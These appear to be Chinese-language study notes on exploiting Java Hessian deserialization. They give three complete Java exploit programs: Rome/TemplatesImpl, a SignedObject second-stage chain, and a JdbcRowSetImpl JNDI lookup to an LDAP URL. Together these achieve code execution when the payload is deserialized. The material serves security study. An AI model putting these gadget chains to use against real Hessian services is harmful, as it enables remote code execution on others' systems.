










#### hessian 反序列化

反序列化 HashMap 对象，



readType() 返回的 type 为 ""

 继续跟进 readMap , new 一个 map 反序列化器



继续跟进 map 反序列化器的 readMap 



这里调用了 map.put(key,value),存在一条 gadget

readObject --> map.put(key,value) --> hash(key) --> hashcode(key) 


CC6链

Rome 链

BadAttributeValueExpException+SwingLazyValue


##### hessian  rome 二次反序列化

rome 链子主要是 toString() 方法会触发 getter 方法

然后 hessian 反序列化会调用 key.hashcode()  --> ObjectBean.hashcode() --> this._equalsBean.beanHashCode() --> EqualsBean._obj.toString() 这里的  EqualsBean._obj 是 ToStringBean 

```java
public class ObjectBean implements Serializable, Cloneable {
    private EqualsBean _equalsBean;
    private ToStringBean _toStringBean;
    private CloneableBean _cloneableBean;

    public ObjectBean(Class beanClass, Object obj) {
        this(beanClass, obj, (Set)null);
    }

    public ObjectBean(Class beanClass, Object obj, Set ignoreProperties) {
        this._equalsBean = new EqualsBean(beanClass, obj);
        this._toStringBean = new ToStringBean(beanClass, obj);
        this._cloneableBean = new CloneableBean(obj, ignoreProperties);
    }

    public Object clone() throws CloneNotSupportedException {
        return this._cloneableBean.beanClone();
    }

    public boolean equals(Object other) {
        return this._equalsBean.beanEquals(other);
    }

    public int hashCode() {
        return this._equalsBean.beanHashCode();
    }

    public String toString() {
        return this._toStringBean.toString();
    }
}
```


```java
public class EqualsBean implements Serializable {
    private static final Object[] NO_PARAMS = new Object[0];
    private Class _beanClass;
    private Object _obj;
    
    public EqualsBean(Class beanClass, Object obj) {
        if (!beanClass.isInstance(obj)) {
            throw new IllegalArgumentException(obj.getClass() + " is not instance of " + beanClass);
        } else {
            this._beanClass = beanClass;
            this._obj = obj;
        }
    }
    public int beanHashCode() {
    	return this._obj.toString().hashCode();
    }
}

```

因此 hessian 反序列化 exp 如下

```java
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.Serializable;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class Hessian_Test implements Serializable {

    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException {
        HashMap map = new HashMap();
        byte[] code = Files.readAllBytes(Paths.get("D:\\tools_D\\java\\java_learn\\cc_chain\\cc3_\\src\\main\\java\\templatesBytes.class"));

        byte[][] evil = new byte[1][];
        evil[0] = code;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl,"_name","evil");
        setFieldValue(templatesImpl,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templatesImpl,"_bytecodes",evil);
        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesImpl);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);

        map.put(objectBean,"22");
        byte[] bytes = serialize(map);
        System.out.println(bytes);
        deserialize(bytes);
    }
    public static void setFieldValue(Object obj,String field,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }

    public static <T> T deserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bai = new ByteArrayInputStream(bytes);
        HessianInput input = new HessianInput(bai);
        Object o = input.readObject();
        return (T) o;
    }

    public static <T> byte[] serialize(T o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        HessianOutput output = new HessianOutput(bao);
        output.writeObject(o);
        System.out.println(bao.toString());
        return bao.toByteArray();
    }
}
```

弹了计算器，但是报错如下



打断点发现这一步往下报错



发现 _tfactory 被 transient 修饰，不可序列化，反序列化时取默认值




这里 TemplatesImpl 的 readObject 方法，会对 _tfactory 赋值，因此可以打 二次反序列化

使用 signedObject 类



exp 如下

```java
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.Serializable;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.HashMap;

public class Hessian_Test implements Serializable {

    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, NoSuchAlgorithmException, SignatureException, InvalidKeyException {
        byte[] code = Files.readAllBytes(Paths.get("D:\\tools_D\\java\\java_learn\\cc_chain\\cc3_\\src\\main\\java\\templatesBytes.class"));

        byte[][] evil = new byte[1][];
        evil[0] = code;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl,"_name","evil");
        setFieldValue(templatesImpl,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templatesImpl,"_bytecodes",evil);

        ToStringBean toStringBean1 = new ToStringBean(Templates.class,templatesImpl);
        EqualsBean equalsBean1 = new EqualsBean(ToStringBean.class,toStringBean1);
        HashMap map0 = new HashMap();
        ObjectBean objectBean1 = new ObjectBean(HashMap.class,map0);
        HashMap map1 = new HashMap();
        map1.put(objectBean1,"22");
        setFieldValue(objectBean1,"_equalsBean",equalsBean1);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) map1, kp.getPrivate(), Signature.getInstance("DSA"));

        ToStringBean toStringBean2 = new ToStringBean(SignedObject.class,signedObject);
        EqualsBean equalsBean2 = new EqualsBean(ToStringBean.class,toStringBean2);
        ObjectBean objectBean2 = new ObjectBean(HashMap.class,map0);
        HashMap map2 = new HashMap();
        map2.put(objectBean2, "aaa");
        setFieldValue(objectBean2,"_equalsBean",equalsBean2);


        byte[] bytes = serialize(map2);
//        System.out.println(bytes);
        deserialize(bytes);
    }
    public static void setFieldValue(Object obj,String field,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }

    public static <T> T deserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bai = new ByteArrayInputStream(bytes);
        HessianInput input = new HessianInput(bai);
        Object o = input.readObject();
        return (T) o;
    }

    public static <T> byte[] serialize(T o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        HessianOutput output = new HessianOutput(bao);
        output.writeObject(o);
        System.out.println(bao.toString());
        return bao.toByteArray();
    }
}
```

调用栈如下





##### Rome + JdbcRowSetImpl 链

exp 如下

```java

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.util.HashMap;

public class rome_jdbc {
    public static void main(String[] args) throws SQLException, NoSuchFieldException, IllegalAccessException, IOException {
        JdbcRowSetImpl jdbcRowSetImpl = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:1389/#evil";
        jdbcRowSetImpl.setDataSourceName(url);

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowSetImpl);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap map = new HashMap();
        ObjectBean objectBean = new ObjectBean(HashMap.class,map);
        map.put(objectBean,"wsh");
        setFieldValue(objectBean,"_equalsBean",equalsBean);
        byte[] bytes =  serialize(map);
        deserialize(bytes);
    }
    public static void setFieldValue(Object obj,String field,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }
    public static <T> T deserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bai = new ByteArrayInputStream(bytes);
        HessianInput input = new HessianInput(bai);
        Object o = input.readObject();
        return (T) o;
    }
    public static <T> byte[] serialize(T o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        HessianOutput output = new HessianOutput(bao);
        output.writeObject(o);
        System.out.println(bao.toString());
        return bao.toByteArray();
    }
}

```

调用栈如下




##### hessian spring aop 链

